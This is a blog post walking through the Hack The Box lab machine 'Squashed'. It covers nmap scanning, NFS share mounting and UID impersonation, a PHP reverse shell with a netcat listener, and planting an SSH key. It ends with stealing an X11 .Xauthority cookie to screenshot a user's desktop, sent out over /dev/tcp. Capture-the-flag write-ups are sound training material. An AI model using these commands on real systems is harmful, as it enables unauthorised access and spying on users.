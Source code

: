 ```yaml
---
title: Squashed
published: true
layout: post
---
```


<br />

---------------
Squashed is an Easy Difficulty Linux machine that features a combination of both identifying and leveraging misconfigurations in NFS shares through impersonating users. Additionally, the box incorporates the enumeration of an X11 display into the privilege escalation by having the attacker take a screenshot of the current Desktop. 
<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/KP7Hxz5SXmY?si=bEG89tPeTExjCWa3" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------
<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />

Let's start by scanning for **open ports**:

```bash
sudo nmap -sS 10.10.11.191 -p- -T4 --min-rate 5000 -oN all_tcp_ports.txt --open -n -Pn -vv
sudo nmap -sU 10.10.11.191 -p- -T4 --min-rate 5000 -oN all_udp_ports.txt --open -n -Pn -vv
```
<br />

There are **14 open ports**:
+ **22/tcp**
+ **80/tcp**
+ **111/tcp**
+ **2049/tcp**
+ **34179/tcp**
+ **34247/tcp**
+ **39827/tcp**
+ **43513/tcp**
+ **111/udp**
+ **2049/udp**
+ **36084/udp**
+ **43629/udp**
+ **45137/udp**
+ **54284/udp**

<br />

Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.11.191 -p 22,80,111,2049,34179,34247,39827,43513 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
sudo nmap -sU 10.10.11.191 -p 111,2049,36084,43629,45137,54284 -T4 --min-rate 5000 -oX open_udp_ports.xml -oN open_udp_ports.txt --version-all -n -Pn -A
```
<br />

There are a lot of services that does not provide relevant information, but the ones that do are:
+ **22/tcp OpenSSH 8.2p1**
+ **80/tcp Apache httpd 2.4.41**
+ **111/tcp rpcbind 2-4 (RPC #100000)**
+ **2049/tcp nfs**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.11.191 -p 22,80,111,2049,34179,34247,39827,43513 -T4 --min-rate 5000 --script="vuln or intrusive or discovery" -oN tcp_vulns.txt -oX tcp_vulns.xml -n -Pn
sudo nmap -sU 10.10.11.191 -p 111,2049,36084,43629,45137,54284 -T4 --min-rate 5000 --script="vuln or intrusive or discovery" -oN udp_vulns.txt -oX udp_vulns.xml -n -Pn
```
<br />

These scans didn't return any relevant information.
<br />

------
<br />
### Foothold

**NFS** is used to **export directories**, which we can mount and access. Let's see what directories can we mount:

```bash
showmount -e 10.10.11.191
```

![](/assets/Squashed/1.png)
<br />
<br />

Let's **mount these directories** in our machine:

```bash
mkdir -p ~/HTB/Squashed/content/home/ross
mkdir -p ~/HTB/Squashed/content/var/www/html
mount -t nfs 10.10.11.191:/home/ross ~/HTB/Squashed/content/home/ross
mount -t nfs 10.10.11.191:/var/www/html ~/HTB/Squashed/content/var/www/html
```
<br />

These directories have different owners, which seems to be **represented by UID**:<br />

![](/assets/Squashed/2.png)
<br />
<br />

We can create users in our machine with this UID to **impersonate these users**, although we will still be restricted by **NFS permissions**:

```bash
sudo useradd -u 1001 fake_ross
sudo passwd fake_ross
sudo useradd -u 2017 fake_www
sudo passwd fake_www
```
<br />

I tried uploading my public SSH key to ross's home directory, but I don't have write permissions, however we do have **write permissions** on the **mounted /var/www/html**, so let's upload a **PHP reverse shell** and visit the website:

```bash
su fake_www
cp monkey.php ~/HTB/Squashed/content/var/www/html/
nc -nlvp 4444
curl http://10.10.11.191/monkey.php
```

![](/assets/Squashed/3.png)
<br />
<br />

Great!! We gained a reverse shell, however we have a running **SSH** on the victim machine, let's try to leverage it uploading our public key:

```bash
mkdir /home/alex
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKpE4QtZoJ4GLwvKxM3BUvFKp/pI5lKsK34c+4m6AhZg tanades@kali" >> /home/alex/.ssh/authorized_keys
chmod 700 .ssh
chmod 640 .ssh/authorized_keys
```
<br />

Once we have done this, we can try to log in as alex using SSH and get the user flag:

```bash
ssh alex@10.10.11.191
```

![](/assets/Squashed/4.png)
<br />
<br />

**Flag obtained!** Let's go for the privilege escalation.
<br />

------
<br />
### Privilege Escalation

After performing a deep enumeration, I found that user ross is running a **KeePassXC** instance, this program uses a **GUI to display the data**:

```bash
ps faux | grep ross
```

![](/assets/Squashed/5.png)
<br />
<br />

Inspecting **ross's home directory**, we can see that it's using **X display** due to the hidden files:<br />

![](/assets/Squashed/6.png)
<br />
<br />

We can see if he has a session on the machine:

```bash
w
```

![](/assets/Squashed/7.png)
<br />
<br />

In the **FROM column**, we can see that ross is on **display 0**. However, we need the cookie in .Xauthority to leverage this, but we can get it using the NFS share and the fake_ross user we created:

```bash
su fake_ross
bash
cd ~/HTB/Squashed/content/home/ross/
cat .Xauthority;echo
```

![](/assets/Squashed/8.png)
<br />
<br />

Great, however we may need to **encode the cookie** to use it. So let's copy it to alex's home directory in **base64**.

```bash
cat .Xauthority | base64
#Copy the output and go to the SSH session
echo AQAADHNxdWFzaGVkLmh0YgABMAASTUlULU1BR0lDLUNPT0tJRS0xABDnHyCeEjEZWpGdJSxoZDI1 | base64 -d > /home/alex/.Xauthority
```
<br />

Let's **export the cookie** to a environmental variable and take a **screenshot of ross's screen**.

```bash
export XAUTHORITY=/home/alex/.Xauthority
xwd -root -screen -display :0 > /home/alex/screen.xwd
```
<br />

Finally, let's send the image to our Kali machine, which has a **netcat listener** and watch the image:

```bash
cat screen.xwd > /dev/tcp/10.10.16.7/4444
conver screen.xwd screen.png
display screen.png
```

![](/assets/Squashed/9.png)
<br />
<br />

Great, let's print the **root flag**:<br />

![](/assets/Squashed/10.png)
<br />
<br />
